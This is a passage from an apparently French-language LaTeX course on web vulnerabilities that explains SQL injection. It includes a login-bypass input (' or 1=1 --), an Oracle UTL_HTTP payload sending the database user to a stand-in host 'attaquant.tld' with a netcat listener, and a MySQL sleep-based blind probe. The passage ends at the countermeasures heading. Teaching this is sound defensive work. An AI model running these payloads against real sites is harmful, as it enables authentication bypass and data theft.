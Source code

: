 Cette page PHP construit la requete :
select ID from utilisateurs where login='\$login' AND password='\$password'

Si les variables \$login et \$password ne sont pas vérifiées, on peut injecter ce que l'on veut dans la requete afin de contourner le controle d'accès :
select ID from utilisateurs where login='xxx' or 1=1 -- ' AND password='yyy'

Ici, la valeur envoyée pour \$login est :
xxx' or 1=1 --
Le double tiret forçant tout ce qui suit dans la requete à être ignoré.


\subsection{SQLi à l'aveugle (Blind)}\label{vulnerabilites:web:sqli:blind}

Lorsque les résultats des requêtes SQL ne sont pas directement affichés par l'application web, il va falloir travailler de manière détournée, en aveugle.

Par exemple, la requête (Oracle) suivante va envoyer des information vers la machine de l'attaquant : 
\begin{center}
http://www.monsite.tld/product.php?id=10

||UTL\_HTTP.request(‘attaquant.tld:80’

||(SELECT user FROM DUAL)--
\end{center}

Qui va recevoir le nom de l'utilisateur connecté à la base de données :
\begin{center}
/home/attaquant/nc –nLp 80
 
GET /ROBERT HTTP/1.1

Host: attaquant.tld

Connection: close

\end{center}

Une autre technique très connue est celle par délai d'attente, par exemple pour déterminer la version de MySQL utilisée :

\begin{center}
http://www.monsite.tld/product.php?id=10 AND IF(version() like ‘5\%’, sleep(10), ‘false’))--
\end{center}

Ici, l'observation du temps de réponse de la requête indiquera si la cible utilise MySQL 5.X.

\subsection{Contre-mesures}

